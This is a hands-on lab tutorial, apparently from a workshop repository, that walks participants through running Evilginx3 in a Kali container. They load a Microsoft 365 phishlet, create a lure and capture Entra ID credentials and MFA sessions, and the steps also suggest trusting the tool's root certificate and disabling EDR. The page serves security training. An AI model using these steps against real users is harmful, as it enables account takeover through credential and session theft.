









# Quest 1 - Buckle up!

**[🏠Home](../README.md)** - [ Quest 2 >](quest2.md)

In this tutorial, you will perform basic deployments to set up your environment for the hands-on lab. You will also learn how to install a phishing simulation tool called [EvilGinx](https://help.evilginx.com/docs/intro) to prepare for the next quest.

A common practice for "playing" with hacking tools is to utilize an *isolated environment* instead of your "bare" machine. This can be a container or a virtual machine. This way, you can *keep your main machine clean* and avoid any unintended consequences.

## Guided experience

If you are lucky enough to have signed-up to a guided experience with us like with [this DSAG event](https://dsagnet.de/event/sap-hacker-fur-einen-tag-virtuell), we will be providing sandboxes (pre-configured virtual machines) for you.

To get started with one of those,

* Open your RDP client (type `MSTSC` on the search bar on Windows) on your laptop and
* connect to the provided VM using your allocated IP address, user name, and password.

> [!CAUTION]
> Corporate firewalls and VPNs may block RDP connections (port 3389) to unknown destinations. If you are unable to connect, please try a  a different network (e.g. home office) and/or a personal device instead. In rare cases port 3389 may also be closed at your home network for outbound traffic.

### Step 0: Sign-up to the leaderboard

* Open the [leaderboard](https://martinpankraz.github.io/crispy-potato/) and sign-up with a flashy hacker name
* See how you [rank](https://keepthescore.com/board/ncmkdskqrwjgr/) against your hacker peers.

Now, back to your sandbox environment...

### Step 1: Start Evilginx3 process

The guided experience uses the container engine podman with the image Kali Linux purpose-built for security and pen-testing.

* Navigate to your VM's desktop and open the terminal (powershell).
* Execute the following commands to start the podman container.

```bash
podman machine start
```

> [!TIP]
> In case no podman machine is present yet or your start command fails, execute the following commands to create a podman machine.
>
> ```bash
> podman machine init
> podman machine set --rootful
> podman machine start
> ```

* Verify the github project "sap-hacker-in-a-day" is present on your Desktop and navigate into the folder `docker-kali` from your terminal.

```bash
cd .\Desktop\sap-hacker-in-a-day\docker-kali\
```

* Open a parallel session on your terminal (second tab or instance) and execute the following commands to start the Evilginx3 process.

> [!NOTE]
> You need to be in the same folder as the first session - run above `cd` command again to be sure! In case of port binding issues adjust the incoming port in the command below.

```bash
podman build -t my-evilginx-kali:latest .
podman run -it -p 443:443 --name my-evilginx-container my-evilginx-kali:latest
```

This will create the `my-evilginx-container` with a fixed name for static referencing for downstream commands.

Once Evilginx shows up on your terminal as its own process, continue your setup...

> [!TIP]
> The scripts are meant for initial execution. When revisiting the container after a break or similar, run the following from within the container to reach operational status again:
>
> ```bash
> podman start -ia my-evilginx-container
> ```
>
> This command takes you directly to the Evilginx command line interface.

> [!IMPORTANT]
> When restarting the config process, you will need to download the required certificate, and repeat config steps again. To restart the process, you can use the following command:
>
> ```bash
> podman machine stop
> podman machine rm podman-machine-default
> ```

### Step 2: Configure Evilginx3

_See the official documentation for reference [here](https://help.evilginx.com/docs/intro)._

Run below commands using the CLI of Evilginx3 to configure the tool.

```bash
config ipv4 127.0.0.1
config domain dsag-red-YourUserNo.com
```

> [!CAUTION]
> In case your EDR tool (like Microsoft Defender) starts flagging the suggested domain dsag-red-team.com, consider changing it. The hacker would too ;-). Alternatively, you may consider disabling the EDR tool for the duration of the exercise.
>
> <p align="center" width="100%">
> 
> </p>
>

<p align="center" width="100%">

</p>

> [!NOTE]
> hackers use elusive domains like 'microsofttonline.com' to trick users. Outlook and M365 pick up such attempts, but other email clients may not. Be aware we use a domain that is not registered and only used for this tutorial.

#### Certificate handling

* Get the required root certificate from EvilGinx using the below command from your terminal outside of the EvilGinx process. This will copy the generated ca.crt file from the container to your hosting OS into the [docker-kali folder](../docker-kali/).

Use the following podman command to copy the certificate to your local machine.

```bash
podman cp my-evilginx-container:/root/.evilginx/crt/ca.crt ./ca.crt
```

_For Docker have a look [here](../docker-kali/get-crt.ps1)._

* Add this certificate to the **Trusted Root Certificate Authorities** store of the Current User (double click the file -> Install Certificate). Otherwise, you will get a certificate error when accessing the phishing page!

<p align="center" width="100%">

</p>

In some cases, you may need to restart your machine for the certificate changes to take effect.

> [!NOTE]
> For Docker, you can use the following command to copy the certificate to your local machine.
>
> ```bash
> .\get-crt.ps1
> ```

### Step 3: Create or retrieve a phishlet for your scenario

We will use a sample phishlet for M365 shared by [Jan Bakker](https://github.com/BakkerJan/evilginx3/blob/main/microsoft365.yaml).

> [!NOTE]
> [The phishlet](../docker-kali/microsoft365.yaml) has already been copied into the container and made available to EvilGinx through folder `/usr/share/evilginx2/phishlets`.

* Verify the M365 phishlet is loaded as expected and execute the command below to see the list of available phishlets.

```bash
phishlets
```

<p align="center" width="100%">

</p>

> [!TIP]
> Always check for updates on the phishlets and the EvilGinx tool itself. Things are changing rapidly in the security world!

### Step 4: Prepare your phishing lure

Run below commands using the CLI of Evilginx3 to prepare the phishing lure.

```bash
phishlets hostname microsoft365 dsag-red-YourUserNo.com
phishlets enable microsoft365 
```

<p align="center" width="100%">

</p>

#### Enhance your hosts file for local testing

Run below commands using the CLI of Evilginx3 to get the required hosts file entries conveniently.

```bash
phishlets get-hosts microsoft365
```

> [!TIP]
> You may ignore the redundant third line of the output.

<p align="center" width="100%">

</p>

* Add the output to your hosts file located at `C:\Windows\System32\drivers\etc\hosts`.

> [!IMPORTANT]
> You will need admin rights to edit this file. You may need to execute your editor with elevated rights (Run as Administrator).

<p align="center" width="100%">

</p>

#### Create your phishing lure

```bash
lures create microsoft365
lures get-url 0
```

<p align="center" width="100%">

</p>

* Open the generated URL (https://login.dsag-red-YourUserNo.com/some-key) in your browser to see the phishing page (see right part of below image for reference).

> [!IMPORTANT]
> The redirect/ infinite loop of logins you see is due to our simple phishlet setup. But that is ok, your session is recorded. Still a hacker would invest a little more to avoid this as it might tip off their efforts.

* Check the Evilginx3 console for the captured output so far ("new visitor has arrived" etc.).

* Finally, supply the Entra ID credentials (+ MFA if configured) to trigger a login on SAP and see the captured data in the Evilginx3 console.

<p align="center" width="100%">

</p>

> [!TIP]
> Hitting `blacklisted ip address` issues? Verify if you executed all configuration steps correctly first. If still doesn't help: run the command `blacklist off` in the Evilginx3 CLI.

## Update the [leaderboard](https://martinpankraz.github.io/crispy-potato/) with your progress⏱

## Where to next?

**[🏠Home](../README.md)** - [ Quest 2 >](quest2.md)

[🔝](#)
